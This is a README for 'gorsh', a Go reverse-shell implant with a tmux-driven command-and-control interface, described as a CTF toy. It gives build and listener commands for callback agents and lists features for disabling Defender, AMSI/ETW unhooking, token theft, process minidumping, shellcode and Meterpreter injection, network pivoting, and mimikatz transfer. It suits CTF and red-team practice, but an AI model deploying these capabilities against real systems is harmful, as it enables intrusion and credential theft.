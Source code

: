 # gorsh


A toy CTF Golang Reverse Shell w/ a Tmux-driven psuedo-C2 Interface


[![forthebadge](https://forthebadge.com/images/badges/fuck-it-ship-it.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/no-ragrets.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/contains-technical-debt.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-crayons.svg)](https://forthebadge.com)


![](https://i.imgur.com/x51XH6K.png)
[![asciicast](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x.svg)](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x)





## Usage

Generate agents with:

```bash
# For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.
$ make {windows,macos,linux} LHOST=example.com LPORT=443
```

Generate the server with:

```bash
# For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.
$ make server LPORT=443
```

Gen everything with `make all LHOST=example.com LPORT=443`

### Catching the shell

```bash
make listen LPORT=443
```

Tmux is powerful terminal multiplexer with robust session/windows/pane management. 
It works better at managing multiple reverse shells than most shell managers I've seen.
The server binary creates a tmux session per host and a window per each reverse shell binary invocation.
If you run the `spawn` command on a shell, a new window will open in the host's session, creating a "tab".

To catch a shell without `gorsh-server` and/or tmux, use:

```bash
socat -d -d OPENSSL-LISTEN:443,reuseaddr,cert=certs/server.pem,verify=0,fork READLINE
```

## Features

- Network scanner
- Ligolo-ng tunnels for socks-less pivoting
- Tab completion (dependent on exec method)
- Duplicate your shells with 'spawn'

### Windows
- Disable Defender (or any process) by demoting process tokens to untrusted.
- Execute Assembly - assemblies are gzipped & embedded. No hosting necessary
- Unhook modules (w/ builtins for AMSI and ETW)
- steal_token / revtoself
- getsystem - if admin
- minidump any process (uses comsvcs.dll)
- shellcode injection
- can fetch and inject meterpreter tcp and http stages
    - or any other shellcode that follows the metasploit staging protocol
    - first 4 bytes indicating the size of the following payload
        - `[size][payload]`

#### Not Windows
- `setuid`, useful for UID spoofing to bypass NFS "ACLs"
- Enumeration scripts
    - linpeas
    - linenum

### Execute Assembly

Assemblies are gzipped and embedded within the implant. Since this is a CTF
shell, I'm optimizing for ease of use and not tradecraft.

- `make list-assemblies` will show available assemblies from Flangvik's SharpCollection project.
- `make choose-assemblies` will bring up fzf, where you can filter and choose
what assemblies you want embedded. They will be embedded at the next build
time.
- to embed any other assemblies not in SharpCollection. gzip it and copy it to `./pkg/execute_assembly/embed/`

### Ligolo-NG Tunnels

Agents have the ligolo client embedded. Run `make start-ligolo` to prepare
interfaces and run ligolo-ng. From an agent, run `pivot` and a callback should
land within the ligolo interface. Select the callback in ligolo and `start`
routing. On your box, create a route to the remote network through the `tun`
interface and all traffic to that destination will now egress through ligolo.

```bash
ip route add 172.16.43.0/24 dev ligolo`
```

### File upload/download

Since this is a reverse shell, only sharing its stdin/out/err through a network socket, 
traditional methods of uploading and downloading file aren't available. There's
a docker smb server to bridge that gap. Configure the directories to be shared
in the `Makefile`, then run `make start-smb`. If you wish to see logs so you
can monitor callbacks, use `make smblogs`. Windows implants understand UNC
paths, so something like `cp //myip/tools/mimikatz.exe .` is possible.
